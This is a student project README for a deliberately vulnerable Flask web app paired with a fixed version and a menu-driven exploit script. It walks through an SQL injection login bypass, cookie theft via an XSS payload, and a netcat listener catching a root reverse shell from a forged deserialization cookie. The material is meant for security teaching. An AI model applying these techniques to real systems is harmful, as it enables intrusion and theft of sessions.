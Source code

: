 # Vulnerable flask based web application

Project with the goal to make one web application with two versions:

- app, web application with security issues
- appsec, web application with the security issues fixed

## Vulnerabilities present

- Plaintext Passwords
- SQLi
- Forced Browsing
- XSS
- Insecure deserialization

## Usage

### To run the web application

1. Go to the desired web application directory
2. Run the following command:
    
    ```bash
    docker-compose up --build
    ```
    
3. go to the following [url](http://localhost/) 

### To run the POC (poorsploit.py)

1. Go to the project directory
2. Run the following command
    
    ```bash
    python3 poorsploit.py
    ```
    
3. Choose the exploit we want to exploit with the POC (poorsploit.py)
    
    ```bash
    python3 poorsploit.py
     ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ _________ 
    ||P |||o |||o |||r |||s |||p |||l |||o |||i |||t |||       ||
    ||__|||__|||__|||__|||__|||__|||__|||__|||__|||__|||_______||
    |/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/_______\| (Metasploit at home™️)
    
    [?] Choose one of the options:
           1 - SQli
           2 - Insecure Deserialization
           3 - XSS
           4 - Forced Browsing
           5 - quit
    > 
    ```
    

### To run go into the database

1. Check in witch container id the mysql db is running by executing the below command
    
    ```bash
    docker ps
    ```
    
2. Run the following command to get access to the mysql db
    
    ```bash
    docker exec -it <container−id> mysql -h localhost -P 3306 -u root -proot
    ```
    

## Exploitation

### SQLi

Manually:

```bash
username: <username of user we know exists>' -- \\
password: <anything>
```

Automatically:

```bash
> python3 poorsploit.py
 ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ _________ 
||P |||o |||o |||r |||s |||p |||l |||o |||i |||t |||       ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__|||_______||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/_______\| (Metasploit at home™️)

[?] Choose one of the options:
       1 - SQli
       2 - Insecure Deserialization
       3 - XSS
       4 - Forced Browsing
       5 - quit
> 1
[!] Username is : root
[!] Password is: root
```

### Forced Browsing

1. Log in
2. Run the poorsploit.py to check if there are any interesting directories on the robots.txt file
3. Check out those directories mentioned

### XSS

1. Log in to post something
2. Run the poorsploit.py to get the payload we are going to post on the website
3. Just wait and see the poorsploit server output with the stolen cookies (it will repeat some)
4. Close the server when done with ctrl+c

### Insecure deserialization

1. Log in as an user to get a cookie
2. On our machine run a net cat listener for our reverse shell:
    
    ```bash
    nc -lnvp 9999
    ```
    
3. Run the poorsploit.py to get a cookie that enables us to run a reverse shell on the target machine
4. Change the cookie we have on the browser for the one we got from poorsploit.py and refresh the page
5. We get a root shell on our listener terminal like the following:
    
    ```bash
    > nc -lnvp 9999
    Connection from 172.20.0.4:49470
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    root@aca189c0881c:/app#
    ```
    

## Authors

Rodrigo Lima, nmec: 98475 <br>
Camila Fonseca, nmec: 97880 <br>
Patrícia Dias, nmec: 98546 <br>
Isadora Loredo, nmec: 91322 <br>
